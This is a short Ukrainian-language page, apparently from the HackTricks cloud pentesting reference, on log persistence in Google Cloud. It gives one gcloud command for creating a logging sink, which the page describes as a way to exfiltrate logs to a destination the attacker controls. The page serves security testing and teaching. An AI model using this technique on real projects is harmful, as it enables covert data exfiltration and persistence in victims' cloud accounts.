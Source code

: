 # GCP - Збереження журналів

{{#include ../../../banners/hacktricks-training.md}}

## Журнали

Знайдіть більше інформації про журнали в:

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

Створіть злив, щоб ексфільтрувати журнали до доступного для зловмисника місця призначення:
```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```
{{#include ../../../banners/hacktricks-training.md}}
